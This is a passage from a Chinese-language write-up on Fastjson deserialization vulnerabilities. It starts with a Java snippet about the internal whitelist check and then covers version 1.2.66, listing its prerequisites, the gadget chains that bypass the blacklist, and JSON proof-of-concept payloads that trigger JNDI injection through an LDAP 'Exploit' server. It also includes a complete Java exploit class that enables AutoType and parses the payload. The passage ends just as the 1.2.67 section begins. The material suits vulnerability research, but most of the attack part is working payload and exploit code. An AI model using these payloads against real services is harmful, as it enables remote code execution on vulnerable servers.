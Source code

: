 ```java  
   
// 对类名进行Hash计算并查找该值是否在INTERNAL_WHITELIST_HASHCODES即内部白名单中，若在则internalWhite为true  
      boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES,  
              TypeUtils.fnv1a_64(className)  
      ) &gt;= 0;  
```  
## 0x02 1.2.66反序列化漏洞  
### 前提条件  
- 开启AutoType；  
- Fastjson &lt;= 1.2.66；  
- JNDI注入利用所受的JDK版本限制；  
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；  
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；  
- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包;  
### 漏洞原理  
新Gadget绕过黑名单限制  
1.2.66涉及多条Gadget链，原理都是存在JNDI注入漏洞  
`org.apache.shiro.realm.jndi.JndiRealmFactory`类`poc`  
`{&#34;@type&#34;:&#34;org.apache.shiro.realm.jndi.JndiRealmFactory&#34;, &#34;jndiNames&#34;:[&#34;ldap://localhost:1389/Exploit&#34;], &#34;Realms&#34;:[&#34;&#34;]}`  
`br.com.anteros.dbcp.AnterosDBCPConfig`类poc  
```json  
{&#34;@type&#34;:&#34;br.com.anteros.dbcp.AnterosDBCPConfig&#34;,&#34;metricRegistry&#34;:&#34;ldap://localhost:1389/Exploit&#34;}  
{&#34;@type&#34;:&#34;br.com.anteros.dbcp.AnterosDBCPConfig&#34;,&#34;healthCheckRegistry&#34;:&#34;ldap://localhost:1389/Exploit&#34;}  
```  
`com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig`类poc  
```json  
{&#34;@type&#34;:&#34;com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig&#34;,&#34;properties&#34;: {&#34;@type&#34;:&#34;java.util.Properties&#34;,&#34;UserTransaction&#34;:&#34;ldap://localhost:1389/Exploit&#34;}}  
```  
### exp  
```java  
import com.alibaba.fastjson.JSON;    
import com.alibaba.fastjson.parser.ParserConfig;    
    
public class EXP_1266 {    
    public static void main(String[] args) {    
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);    
 String poc = &#34;{\&#34;@type\&#34;:\&#34;org.apache.shiro.realm.jndi.JndiRealmFactory\&#34;, \&#34;jndiNames\&#34;:[\&#34;ldap://localhost:1234/ExportObject\&#34;], \&#34;Realms\&#34;:[\&#34;\&#34;]}&#34;;    
//        String poc = &#34;{\&#34;@type\&#34;:\&#34;br.com.anteros.dbcp.AnterosDBCPConfig\&#34;,\&#34;metricRegistry\&#34;:\&#34;ldap://localhost:1389/Exploit\&#34;}&#34;;    
//        String poc = &#34;{\&#34;@type\&#34;:\&#34;br.com.anteros.dbcp.AnterosDBCPConfig\&#34;,\&#34;healthCheckRegistry\&#34;:\&#34;ldap://localhost:1389/Exploit\&#34;}&#34;;    
//        String poc = &#34;{\&#34;@type\&#34;:\&#34;com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\&#34;,&#34; &#43;    
//                &#34;\&#34;properties\&#34;: {\&#34;@type\&#34;:\&#34;java.util.Properties\&#34;,\&#34;UserTransaction\&#34;:\&#34;ldap://localhost:1389/Exploit\&#34;}}&#34;;    
 JSON.parse(poc);    
 }    
}  
```  
## 0x03 1.2.67反序列化漏洞(黑名单绕过)  
### 前提条件  
- 开启AutoType；  